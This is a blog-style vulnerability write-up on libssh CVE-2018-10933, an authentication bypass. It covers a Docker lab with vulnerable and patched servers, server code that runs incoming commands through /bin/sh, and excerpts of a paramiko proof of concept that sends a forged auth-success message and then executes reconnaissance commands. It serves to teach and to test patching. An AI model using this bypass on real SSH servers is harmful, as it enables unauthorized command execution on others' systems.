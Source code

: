 ```yaml
---
slug: libssh-bypass-cve/
title: LibSSH New Vulnerability
date: 2018-10-18
category: attacks
subtitle: New vulnerability on libssh CVE-2018-10933
tags: security, bug, libssh, pentesting
image: https://res.cloudinary.com/fluid-attacks/image/upload/v1620330935/blog/libssh-bypass-cve/cover_ad5zp7.webp
alt: Painting a red and blue wall
description: Here, we will explain a vulnerability that allows a remote
  attacker to bypass authentication by sending a user-authenticated
  packet to the server.
keywords: Libssh, Security, CVE, Vulnerability, Pentesting, PoC,
  Ethical Hacking, Pentesting
author: Jonathan Armas
writer: johna
name: Jonathan Armas
about1: Systems Engineer, Security+
about2: '"Be formless, shapeless like water" Bruce Lee'
source: https://unsplash.com/photos/d6YyP28-Ycw
---
```


The new vulnerability in `LibSSH`, tracked as
[CVE-2018-10933](https://www.libssh.org/security/advisories/CVE-2018-10933.txt),
resides on the server code which can enable a client to bypass the
authentication process and create channels without permission. This
affects servers using versions `0.6` and above being used in server
mode.

The bug was discovered by Peter Winter-Smith of NCC Group, it’s like a
`jedi` trick:

- User: `Let me in`

- Server: NO

- User: `I’m authenticated, let me in`

- Server: OK, YOU’RE IN

Why does this happen? Because of the way `LibSSH` checks for
authentication when it receives an `SSH2_MSG_USERAUTH_SUCCESS` message
instead of the `SSH2_MSG_USERAUTH_REQUEST` message. It acts like the
user is already authenticated, so an attacker could bypass the
authentication and execute commands on the server.

## Building the enviroment

How does LibSSH work? It’s a `C` library to implement `SSHv2` protocol
on the client and server side. First, we need to write our server-side
code. We are going to use the sample that `LibSSH` has
(`samplesshd-cb.c`) and modify it for our purposes.

In the `ssh_channel_callbacks_struct` we are going to put the following
line in order to have the `exec` functionality:

**exec request.**

``` C
.channel_exec_request_function = exec_request
```

<div class="imgblock">

![channel-exec](https://res.cloudinary.com/fluid-attacks/image/upload/v1620330934/blog/libssh-bypass-cve/channel-exec_nkvv1s.webp)

</div>

Next, add the `exec_request` function, this will take our commands and
execute them on the server:

``` C
static int exec_nopty(const char *command) {
            /* exec the requested command. */
            execl("/bin/sh", "sh", "-c", command, NULL);
            exit(0);

    return SSH_OK;
}

static int exec_request(ssh_session session, ssh_channel channel,
                        const char *command, void *userdata) {

    printf("Allocated exec  \n");
    (void) userdata;
    (void) session;
    (void) channel;

    return exec_nopty(command);
}
```

If you have `LibSSH` with version `0.7.4` you can simply save it,
compile it, and execute it. If not, you can use our method. We are going
to use a `docker` container and install both versions (a vulnerable one
and a patched one) and then, pass our code to the server and run it. The
example files can be downloaded [here](cve201810933.zip).

To build the container, open a `terminal` in the folder of the
`Dockerfile` and run this command:

``` bash
host$ docker build -t fluidattackscve201810933 .
```

This will download all the necessary files and compile all the sources
of `LibSSH`.

Then, to open the container simply run this command:

``` bash
host$ docker run -it -p 2222:2222 fluidattackscve201810933:latest /bin/bash
```

This is going to mirror our port `2222` to the container port `2222` in
order to be able to run our tests. Also, it will open a `bash` terminal
on the container machine where we will run our `LibSSH` server.

## Exploiting the vulnerability

In this case, we are going to use `LibSSH v0.7.4` and test the solution
with `LibSSH v0.7.6`. The `PoC` is on `Python` version `2`, and you can
check its source
[here](https://www.openwall.com/lists/oss-security/2018/10/17/5), but if
you downloaded our files, it’s there as `exploit.py`.

In order to run this `PoC` you will need `paramiko`. You can install it
by running:

``` bash
host$ pip install paramiko
```

In the container, run the following command to start the vulnerable
`LibSSH` server:

``` bash
container$ ./tmp/libssh-0.7.4/build/examples/samplesshd-cb -k ~/.ssh/id_dsa 0.0.0.0 -k ~/.ssh/id_rsa -p 2222 --verbose
```

The verbose flag is to see what is sending and receiving our server.

Then, in your machine run the exploit with:

``` bash
host$ python exploit.py
```

If you check your container you can see this:

<div class="imgblock">

![ssh-bypass](https://res.cloudinary.com/fluid-attacks/image/upload/v1620330933/blog/libssh-bypass-cve/ssh-bypass_zj8e91.webp)

</div>

When the server is expecting the `SSH2_MSG_USERAUTH_REQUEST`, we are
sending an `SSH2_MSG_USERAUTH_SUCCESS`.

``` python
m.add_byte(paramiko.common.cMSG_USERAUTH_SUCCESS)
transport._send_message(m)
```

The server accepts it, and we bypassed the authentication. Then, we can
send our commands to the server with:

``` python
cmd_channel.exec_command("whoami; id; ls -la /; ip addr")
```

<div class="imgblock">

![command-exec](https://res.cloudinary.com/fluid-attacks/image/upload/v1620330934/blog/libssh-bypass-cve/command-exec_yuqxav.webp)

</div>

## The solution

<div class="imgblock">

![dont-work](https://res.cloudinary.com/fluid-attacks/image/upload/v1620330934/blog/libssh-bypass-cve/dont-work_qzntdl.webp)

</div>

The LibSSH version `0.7.6` doesn’t have this vulnerability. We can test
it, too, in our container. We just need to run:

``` bash
container$ ./tmp/libssh-0.7.6/build/examples/samplesshd-cb -k ~/.ssh/id_dsa 0.0.0.0 -k ~/.ssh/id_rsa -p 2222 --verbose
```

And on our machine the exploit again:

``` bash
host$ python exploit.py
```

<div class="imgblock">

![no-vulnerable](https://res.cloudinary.com/fluid-attacks/image/upload/v1620330933/blog/libssh-bypass-cve/no-vulnerable_z7vihm.webp)

</div>

What’s happening? We send the `SSH2_MSG_USERAUTH_SUCCESS`. The server
receives it, but it won’t authenticate us because they added a
validation on their code. When the packet is
`SSH2_MSG_USERAUTH_SUCCESS`, then, it checks for the authentication
state. If it is not one of the valid states, it denies the packet.

<div class="imgblock">

![Code on
src/packet.c](https://res.cloudinary.com/fluid-attacks/image/upload/v1620330934/blog/libssh-bypass-cve/solution_uaqs60.webp)

<div class="title">

Figure 1. Code on src/packet.c

</div>

</div>

Here you can see the difference between responses for a vulnerable
version and a non-vulnerable one.

<div class="imgblock">

![Vulnerable](https://res.cloudinary.com/fluid-attacks/image/upload/v1620330933/blog/libssh-bypass-cve/vulnerable_mbwn5t.webp)

<div class="title">

Figure 2. Vulnerable

</div>

</div>

<div class="imgblock">

![Non-vulnerable](https://res.cloudinary.com/fluid-attacks/image/upload/v1620330933/blog/libssh-bypass-cve/no-vulnerable_z7vihm.webp)

<div class="title">

Figure 3. Non-vulnerable

</div>

</div>

If you have `LibSSH` in your server, and you are using a server
component, you should install the updated, or patched, versions of
`LibSSH`.
